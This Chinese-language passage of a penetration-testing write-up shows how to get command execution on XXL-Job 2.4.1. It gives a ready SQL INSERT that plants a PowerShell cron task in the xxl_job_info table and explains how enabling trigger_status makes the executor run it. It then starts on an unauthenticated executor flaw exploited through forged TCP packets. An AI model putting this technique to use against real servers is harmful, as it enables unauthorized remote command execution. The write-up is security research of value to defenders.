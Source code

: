 ## 2、通过向数据库中写入数据进行 getshell

这是我偶然发现的一个小 trick，其实原理很简单，xxl-job-admin 会定时从数据库中查询待执行的任务，在一定时间内执行。也就是说，我们只需要往数据库里插入我们构造好的恶意定时任务。他便会让 executor 去执行。当前测试版本为 2.4.1（不同版本的 xxl-job 的数据库结构不太相同，以最新版的为例，旧版的在之前遇到的环境中经测试也能打通。）  
只需要在 xxl\_job.xxl\_job\_info 中插入这条语句即可

```bash
INSERT INTO `xxl_job`.`xxl_job_info` 
(`id`, `job_group`, `job_desc`, `add_time`, `update_time`, `author`, `alarm_email`, `schedule_type`, `schedule_conf`, `misfire_strategy`, `executor_route_strategy`, `executor_handler`, `executor_param`, `executor_block_strategy`, `executor_timeout`, `executor_fail_retry_count`, `glue_type`, `glue_source`, `glue_remark`, `glue_updatetime`, `child_jobid`, `trigger_status`, `trigger_last_time`, `trigger_next_time`) 
VALUES (7, 1, '22222', '2023-12-27 14:57:36', '2023-12-27 14:58:23', '22222', '', 'CRON', '0/5 * * * * ?', 'DO_NOTHING', 'FIRST', '', '', 'SERIAL_EXECUTION', 0, 0, 'GLUE_POWERSHELL', 'calc\n', '12312321', '2023-12-27 14:57:48', '', 0, 1703660320000, 1703660325000);
```

其中有几个值得关注的点：  
`schedule_type`为`corn`轮询，`0/5 * * * * ?`则是计划任务执行的时间我这里设定为 5 秒 1 次。`executor_handler`则是执行命令的类型，我这里因为在 Windows 下测试，故而选择为 powershell，也可变为`GLUE_SHELL`或者`GLUE_GROOVY`等来应对不同的命令。目前我们只是插入了命令，并不能执行，要是想执行，还需要在插入数据之后把`trigger_status`的值改为 1，executor 便会自动开始执行我们输入的命令。

# 五、executor 未授权访问

xxl-job 的 executeor 存在未授权访问漏洞，指纹如下图所示  
低版本  
[![](assets/1709169576-53ae4dc7bee6719e22c749a0d23c3d34.png)](https://cdn.nlark.com/yuque/0/2024/png/29650981/1704266736286-5b119dc7-4303-42e2-ad40-2b689d2ae8e4.png#averageHue=%23f8f6f5&clientId=uda75761c-b57d-4&from=paste&height=472&id=u0a79f53d&originHeight=590&originWidth=1916&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=124429&status=done&style=none&taskId=u885078d7-c9ad-498c-abcf-45d68525b29&title=&width=1532.8)  
高版本  
[![](assets/1709169576-299bc542df19807d10ab9c5b47204baa.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1703663011317-df84d430-e2ca-4a2b-9cae-3c3d779c4890.png#averageHue=%23fdfdfd&clientId=ub082ba60-41a2-4&from=paste&height=491&id=u48d21e64&originHeight=981&originWidth=2637&originalType=binary&ratio=2&rotation=0&showTitle=false&size=57591&status=done&style=none&taskId=ua06ca288-a9fd-4daa-804d-8f7a55b450e&title=&width=1318.5)  
其原因就是 admin 端与 executeor 端通过互相发送 tcp 包进行通信，攻击者可伪造包，使 executeor 执行命令。  
该漏洞主要分为三个阶段
